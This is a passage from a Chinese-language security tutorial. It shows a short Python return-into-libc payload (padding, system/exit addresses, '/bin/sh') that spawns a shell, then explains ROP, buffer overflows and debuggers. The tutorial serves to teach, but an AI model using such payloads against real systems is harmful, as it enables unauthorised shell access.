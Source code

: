 ```python
data += "\x90\x90\x90\x90\x90\x90\x90\x90"
data += "\x90\x90\x90\x90\x90\x90\x90\x90"
data += "\x90\x90\x90\x90\x90\x90\x90\x90"
data += pack('<L', fsystem)
data += pack('<L', fexit)
data += pack('<L', addr)
data += "/bin/sh"

sys.stdout.write(data)
```

演示结果：
![Alt text](/img/interestingBin/1489160621005.png)
 
 > test02已开启Exec-Shield机制，但还是绕过了它并取得成功夺取的权限，这是一个简单的Return-into-libc的例子。但还是需要没有ASLR或者StackGuard防护机制才能攻击成功

在此例中，使用了system函数代替了shellcode。

#### ROP

Return-into-libc是利用库函数(libc)来代替shellcode发动攻击的方法。然而ASLR将加载的模块全部随机化，攻击也会因为无法获得准确的模块地址(不知道system和exec的地址)而失败。

**ROP(Return-Oriented-Programming)，面向返回编程。这种攻击来源于利用随机化的那些模块内部汇编代码拼接所需程序逻辑进行攻击的思路**

ROP 是一种高级的堆栈溢出攻击。这类攻击往往利用操作堆栈调用时的程序漏洞，通常是缓冲区溢出。在缓冲区溢出中，在将数据存入内存前未能正确检查适当范围的函数会收到多于正常承受范围的数据，如果数据将写入堆栈，多余的数据会溢出为函数变量分配的空间并覆盖替换 return 地址。在原本用以重定向控制流并返回给调用者的地址被覆盖替换后，控制流将改写到新分配的地址

ROP相关资料:
- [Return-into-libc 攻击及其防御](https://www.ibm.com/developerworks/cn/linux/1402_liumei_rilattack/)
- [因特尔发布新的技术规范去防御 ROP 攻击](http://mudongliang.github.io/2016/08/04/intel-release-new-technology-specifications-to-protect-against-rop-attacks-zh.html)
- [Deep Dive into ROP Payload Analysis](https://www.exploit-db.com/docs/35355.pdf)


## 调试器和安全编程技巧

调试器被称为“黑客之瞳”。调试器能跟踪一个进程的运行时状态。大多数调试器具有运行、暂停执行和单步执行、设置断点、修改寄存器和内存数据值以及捕获发生在目标进程的异常事件。

**调试器应当具备两种能力：**
* **打开一个可执行文件并使之以自身进程的形式运行起来的能力**
* **附加一个现有进程的能力**

